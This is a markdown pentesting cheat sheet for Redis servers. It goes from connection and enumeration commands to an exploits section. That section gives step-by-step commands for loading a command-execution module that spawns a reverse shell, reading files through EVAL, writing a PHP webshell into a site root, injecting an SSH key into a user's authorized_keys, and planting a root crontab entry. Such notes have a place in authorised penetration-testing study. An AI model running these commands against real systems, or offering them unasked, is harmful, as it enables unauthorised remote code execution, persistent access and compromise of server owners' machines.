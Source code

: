 # Redis

## Commands

### Check connection

```
HELLO
PING
TIME
```

### Login

#### with nc

```
nc -nv <ip> <port>
info    #check if authentication is required
auth <user> <pass>
```

#### with redis-cli

```
apt-get install redis-tools
redis-cli -h <ip> -p <port>    #no password
redis-cli -h <ip> -p <port> -a <pass>
```

### Enumeration

```
info
client list
config GET *
config GET dir
SELECT <db number>    #see output of INFO command for database numbers
KEYS *
GET <key> 
```

## Exploits

### Run code with ExecuteCommand module

Requires access to writable folders on target's machine

```
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
copy ./src/module.so to the remote machine
nc -ncv <ip> <port>
MODULE LOAD <remote path>/module.so
```

#### Execute commands

after connecting to Redis with `nc` or `redis-cli` and loading the module

```
system.exec "<command>"
system.rev <ip> <port>    #spawn a reverse shell
```

### Read file

```
EVAL dofile('<file>') 0
```

### Webshell in site root

```
config set dir <webapp root>
config set dbfilename rv.php
set test "<?php echo shell_exec($_GET['cmd']);?>"    #usage: /rv.php?cmd=<command>
save
```

### SSH key injection

```
ssh-keygen -t rsa    #save the keys in the current folder
(echo -e "\n\n"; cat ./id_rsa.pub; echo -e "\n\n") > key.txt
cat key.txt | redis-cli -h <ip> -p <port> -x set crackit
redis-cli -h <ip> -p <port>
config set dir /home/<user>/.ssh/
config set dbfilename "authorized_keys"
save
exit
ssh <user>@<ip> -i ./id_rsa
```

### Crontab edit

```
echo -e "\n\n*/1 * * * * <command>\n\n"|redis-cli -h 10.85.0.52 -x set 1
redis-cli -h <ip> -p <port>
config set dir /var/spool/cron/crontabs/    #for CentOS the dir is /var/spool/cron/
config set dbfilename root
save
```

